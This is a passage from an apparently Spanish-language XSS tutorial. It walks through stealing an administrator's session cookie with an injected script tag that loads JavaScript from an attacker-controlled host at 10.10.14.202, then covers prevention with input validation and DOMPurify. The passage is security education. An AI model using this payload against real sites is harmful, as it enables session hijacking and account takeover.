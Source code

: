 Creamos nuestro script.js con ese payload en la carpeta donde sirvamos nuestro servidor.

[image](/assets/img/posts/XSS/20251022231139.png)

Ese será el código JS que ejecutará el XSS.

Ahora como dijimos antes creamos el index.php para extraer y ordenar las cookies y formamos nuestro payload final.

```html
"><script src=http://10.10.14.202:8000/script.js></script>
```

[image](/assets/img/posts/XSS/20251022231451.png)

[image](/assets/img/posts/XSS/20251022231510.png)

Ahora podemos cargar la cookie directamente en nuestro navegador y logearnos como el administrador.

[image](/assets/img/posts/XSS/20251022231749.png)


## Prevención de XSS

Las vulnerabilidades XSS están relacionadas principalmente con dos partes de la aplicación web: una fuente, como un campo de entrada de usuario, y un sumidero, que muestra los datos introducidos. Estos son los dos puntos principales en los que debemos centrarnos para garantizar la seguridad, tanto en el front-end como en el back-end.

### Front-end

Por ejemplo que la aplicación web no nos permite enviar el formulario si el formato del correo electrónico no es válido. Esto se hizo con el siguiente código JavaScript:

```javascript
function validateEmail(email) {
    const re = /^(([^<>()[\]\\.,;:\s@\"]+(\.[^<>()[\]\\.,;:\s@\"]+)*)|(\".+\"))@((\[[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\])|(([a-zA-Z\-0-9]+\.)+[a-zA-Z]{2,}))$/;
    return re.test($("#login input[name=email]").val());
}
```

Como podemos ver, este código comprueba el campo de entrada del correo electrónico y devuelve verdadero o falso según si coincide con la validación Regex de un formato de correo electrónico.

##### Sanitización de entradas

Además de la validación de entradas, siempre debemos asegurarnos de no permitir ninguna entrada que contenga código JavaScript, escapando cualquier carácter especial. Para ello, podemos utilizar la biblioteca JavaScript DOMPurify, de la siguiente manera:

```javascript
<script type="text/javascript" src="dist/purify.min.js"></script>
let clean = DOMPurify.sanitize( dirty );
```

##### Entrada directa

Por último, siempre debemos asegurarnos de no utilizar nunca las entradas del usuario directamente dentro de determinadas etiquetas HTML, como:
